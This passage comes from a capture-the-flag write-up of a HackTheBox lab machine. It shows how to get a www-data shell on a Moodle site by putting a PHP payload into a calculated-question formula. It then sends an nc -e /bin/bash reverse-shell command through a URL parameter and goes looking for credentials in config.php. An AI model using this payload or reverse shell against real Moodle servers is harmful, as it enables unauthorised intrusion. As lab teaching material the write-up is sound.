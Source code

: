 ## Getting www-data shell

If we look into the courses we can see there's only one course wich is already finished (Algebra).
If we go into that course we can see a few resources into the course page.

![algebra-page](https://abusinglinux.com/assets/images/teacher-htb/algebrapage.png)

We can click into the setting and then turn editing on.
The we can add an activity or resource and we add a quiz.

We have to set a random name, random description and we have to save and display. The we have to edit the quiz and add a new question which will be a *Calculated*.
<br>
We have to add a random question name, a random question text, we will have to set the grade on 100%.
On the formula field is the place in which we have to set the payload which is
```php
 /*{a*/`$_GET[0]`;//{x}}
```
*Again, there's more explanation about this exploit in this [blog][article-moodle]*

So we set this string into the filed and then we save changes.
Since the php service is waiting for the 0 in the url to be execute we have to add to the url the payload in order to get the reverse shell:
```bash
&0=(nc -e /bin/bash $IP $PORT)
```
Before executing this we have to listn with netcat on the port that we selected, for example 443.

```bash
nc -lvnp 443
```
We have a shell in www-data!

We can upgrade the shell with:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Lateral movement

If we list the users of the machine, we can see that giovanni is an user who's problably have the user flag.
We can try to grab it:
```bash
cat /home/giovanni/user.txt
```
But we got an error.

We can try switch the user with the same password that we used before to login into the moodle site, but doesn't work.

If we look into the server files we can see a pretty interesting file called config.php.
```bash
cat config.php
```


[steganography]: https://www.youtube.com/watch?v=TWEXCYQKyDc
